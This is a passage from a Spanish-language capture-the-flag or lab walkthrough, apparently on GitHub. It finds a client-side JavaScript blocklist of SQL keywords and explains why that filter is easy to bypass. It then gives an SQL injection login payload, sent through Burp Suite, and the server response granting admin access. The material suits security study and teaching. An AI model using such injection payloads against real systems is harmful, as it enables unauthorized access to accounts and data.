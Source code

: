 Encontramos el siguiente código:

const invalidKeywords = ['or', 'and', 'union', 'select', "'", '"'];
for (let keyword of invalidKeywords) {
    if (username.includes(keyword)) {
        alert('Invalid keywords detected');
        return false;
    }
}

📌 Hallazgos:

El filtrado de inyecciones SQL se realiza en JavaScript del lado del cliente.

Palabras como or, and, union, select, ' y " están bloqueadas.

Esto explica el error mostrado al intentar usar ' OR 1=1--.

Sin embargo, este tipo de validaciones son triviales de bypassear enviando la petición manualmente sin pasar por el navegador (ejemplo: Burp Suite, curl, Python requests).

---

## 💉 Paso 15 – Bypass del filtro y SQL Injection con Burp Suite

Dado que el filtro de SQL estaba implementado en **JavaScript del lado del cliente** (`script.js`), lo interceptamos con **Burp Suite** y enviamos la petición manualmente al backend.

<img width="1235" height="374" alt="burpsuite para login" src="https://github.com/user-attachments/assets/7b271e7f-877a-4b92-b040-1141b13c6b23" />

### Payload utilizado
```sql
username=a'27 || 1=1 -- &password=&function=login
```

Respuesta del servidor
{
  "status": "success",
  "message": "Login successful",
  "is_admin": "true",
  "first_name": "dev",
  "last_name": "dev",
  "redirect_link": "dashboard.php?isadmin=false"
}

📌 Hallazgos:

El backend sí era vulnerable a SQL Injection.

Logramos autenticarnos como usuario administrador (dev).

El sistema confirma acceso exitoso con rol admin.

El filtro en el cliente resultó inútil, ya que no afectaba al servidor directamente.

---
